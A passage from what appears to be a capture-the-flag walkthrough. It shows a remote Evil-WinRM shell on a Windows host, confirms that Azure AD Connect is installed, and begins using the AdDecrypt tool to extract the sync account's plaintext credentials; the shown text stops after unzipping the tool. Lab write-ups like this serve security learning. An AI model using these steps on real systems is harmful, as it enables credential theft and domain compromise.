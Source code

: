 ```bash
Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.
```

<br />

The Azure-related components are located under `C:\Program Files`:

<br />

```bash
*Evil-WinRM* PS C:\Program Files> dir *Azure*


    Directory: C:\Program Files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

<br />

These folders confirm that `Azure AD Connect` is installed on the system.

<br />

## Azure Exploitation

<br />

[This post](https://vbscrub.video.blog/2020/01/14/azure-ad-connect-database-exploit-priv-esc/) details a known vulnerability in the `Azure AD Connect` database component.

The `Azure AD Connect` service is responsible for synchronizing accounts and credentials between the on-premises Active Directory and Azure AD. The core idea behind the exploit is that we can extract plaintext credentials for the AD account configured within the sync service by running the exploit inside the `zip` of the following [GitHub repository](https://github.com/VbScrub/AdSyncDecrypt/releases):

To proceed, we download the ZIP file and extract its contents:

<br />

```bash
❯ unzip AdDecrypt.zip
Archive:  AdDecrypt.zip
  inflating: AdDecrypt.exe           
  inflating: mcrypt.dll              
```

<br />
